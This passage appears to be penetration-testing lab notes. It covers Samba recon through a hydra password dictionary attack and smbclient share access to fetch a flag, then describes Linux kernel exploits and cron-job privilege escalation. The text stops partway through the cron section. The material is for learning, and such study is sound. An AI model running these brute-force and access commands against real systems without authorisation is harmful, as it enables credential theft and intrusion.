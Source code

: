 **FTP (File Transfer Protocol)**
FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients and vice versa. Typically configured to run on port 21.

**SAMBA**
Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices. Typically configured to run on port 445.


### Exploiting SAMBA

SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN. SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139. Samba is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.


### Practical Samba Recon: Dictionary Attack

- `nmap -sV demo.ine.local`
- `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`
- `smbmap -H 192.28.24.3 -u admin -p password1`
- `smbclient -L 192.28.24.3 -U admin`
- `smbclient //192.28.24.3/shawn -U admin` Access the share shawn with the user admin
- `smbclient //192.28.24.3/admin -U admin`
- `ls`
- `cd hidden`
- `get flag.tar.gz`
- `tar xzf flag.tar.gz`
- `cat flag`


### Linux Kernel Exploitation

Kernel exploits on Linux will typically target vulnerabilities in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell. This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.

**Tools**

- Linux-Exploit-Suggester: https://github.com/mzet-/linux-exploit-suggester
### Cron Jobs

Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule. An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job. Cron can be used to automate or repeat a wide variety of functions on a system, from daily backups to system upgrades and patches. The crontab file is a configuration file that is used by the Cron utility to store and track Cron jobs that have been created. Cron jobs can also be run as any user on the system, this is a very important factor to keep an eye on as we will be targeting Cron jobs that have been configured to be run as the “root” user. This is primarily because, any script or command that is run by a Cron job will run as the root user and will consequently provide us with root access. In order to elevate our privileges, we will need to find and identify cron jobs scheduled by the root user or the files being processed by the cron job.


### Practival Exploitiong Cron Jobs

- `crontab -l` Indentify Cronjobs that have been sceduled by this partiular user
- 
